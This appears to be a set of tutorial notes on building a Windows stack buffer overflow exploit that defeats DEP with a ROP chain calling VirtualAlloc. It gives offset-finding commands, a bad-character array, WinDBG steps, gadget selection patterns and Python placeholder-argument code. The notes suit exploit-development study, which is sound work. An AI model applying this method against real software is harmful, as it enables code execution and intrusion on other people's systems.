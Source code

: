 # Stack Layout When Crashing
```
 _____________________________ 
|  A * (offset-len(va))       |    Lower Address
|_____________________________|    ↑
|  VirtualAllocStub Address   |    ↑
|_____________________________|    ↑
|  Return Address             |    ↑
|_____________________________|    ↑
|  lpBuffer argument          |    ↑
|_____________________________|    ↑
|  dwSize argument            |    ↑
|_____________________________|    ↑
|  flAllocationType argument  |    ↑
|_____________________________|    ↑
|  flProtect argument         |    ↑
|_____________________________|    ↓
|  Written EIP                |    ↓    
|  Gadget saves initial ESP   |    ↓    
|_____________________________|    ↓
|  B * gap (gap can be 0)     |    ↓ 
|_____________________________|    ↓
|  Start of ROP Chain         |    ↓
|  Initial ESP                |    ↓
|_____________________________|    ↓
|  ROP Chain ...              |    ↓ 
|_____________________________|    ↓ 
|  Start of shellcode         |    ↓ 
|_____________________________|    Higher Address

```

# Steps
## Crash the application
Find the length of payload that is sufficient to crash the application

## Find the offset to overwrite EIP
Find the offset that can overwrite EIP
```bash
//Bash
msf-pattern_create -l <length>
msf-pattern_offset -l <length> -q <EIP>
```

## Find the offset from return address to ESP
When the application crashes, find the distance between the return address and ESP. Sometimes it is 0, sometimes it is not.
```windbg
//WinDBG
dd esp + <offset>
```

```bash
//Bash
msf-pattern_offset -l <length> -q <First DWORD of payload>
```
Pad the gap, and align valid payload with ESP.

## Find bad characters
Replace the actual payload with characters from 0x01 to 0xff. Find all the bad characters.

```python
# Python
  badchars = (
  b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  b"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  b"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  b"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  b"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  b"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  b"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  b"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  b"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
```

The payload is ```A * length + B * gap + \x01\x02\x03\...\xff```

## Select a gadget that saves the initial ESP when crashing
Note the base address of an unprotected module
```windbg
//WinDBG
.load narly
!nmod
lm m <module>
```


Eliminate all bad characters, and run rp.exe or the script to collect gadgets.

Firstly, select a gadget that saves the initial ESP when crashing.

Some typical forms:

- push ESP, pop ANY
- push ESP, other instructions, pop ANY
- mov ANY, esp
- lea ANY, esp/[esp]
- lea ANY, [esp+offset]
- (When register1 meets specific requirements) add/sub/mul/or/xor ANY, esp 

## Overwrite EIP with the gadget that saves the initial ESP
Overwrite EIP with the gadget that saves the initial ESP, the initial ESP points to the start of ROP chain.

```python
# python
  eip = pack("<L", (0x10154112))
  padding = b"B"*<gap>
```

## Construct placeholder arguments required for calling VA

```python
  va  = pack("<L", (0x45454545)) # dummy VirutalAlloc Address or function IAT entry
  va += pack("<L", (0x46464646)) # Shellcode Return Address
  va += pack("<L", (0x47474747)) # dummy lpBuffer 
  va += pack("<L", (0xffffffff)) # dummy dwSize = 0x1 (-0x1)
  va += pack("<L", (0xfffff001)) # dummy flAllocationType = 0x1000 (-0xfff)
  va += pack("<L", (0xffffffc0)) # dummy flProtect = 0x40 (-0x40)
```

VA address can be a dummy address(Depending on usable gadgets), or function IAT entry

Shellcode return address and lpBuffer store placeholder values

dwSize is set 0xffffffff. Neg to recover the original value.

flAllocationType is set 0xfffff001. Neg and inc to recover the original value.

flProtect is set 0xffffffc0. Neg to recover the original value,

## Fetch IAT and address
If VA is imported into the module, fetch the IAT

If VA is not imported, find any function in KERNEL32, and calculate the offset between the 2 functions.

```windbg
\\WinDBG
x kernel32!<Function Imported>
x kernel32!VirtualAllocStub
? <Address of VirtualAllocStub> - <Address of Function Imported>
```

## Patch VA address argument
The initial ESP points to the start of the ROP chain, it is 0x1c+gap bytes away from VA address argument on the stack

## Patch return address
Inc by 4 times, or increase the address by 4 to reach return address argument. Since we have not finished the ROP chain, so reserve a sufficient length for it. For instance, 0x210 bytes.

So, the shellcode is 0x210 bytes away from the return address argument.
## Patch lpBuffer argument
The process is very similiar to patching return address, but the offset is 4 bytes less.

## Patch dwSize
Increase the address by 4 bytes, fetch and neg the value of dwSize argument.

## Patch flAllocationType
Increase the address by 4 bytes, fetch, neg, and inc the value of flAllocationType argument.

## Patch flProtect
Increase the address by 4 bytes, fetch and neg the value of flProtect argument.

## Align ESP with VA address
Now we are at flProtect argument, sub 0x18 (0x14+4) bytes to reach VA address argument

## Calculate the offset between the placeholder shellcode address and actual shellcode address
```windbg
\\WinDBG
dd <Return address argument> l1 (Before calling VA)
dd <Value of return address> + <offset>
```
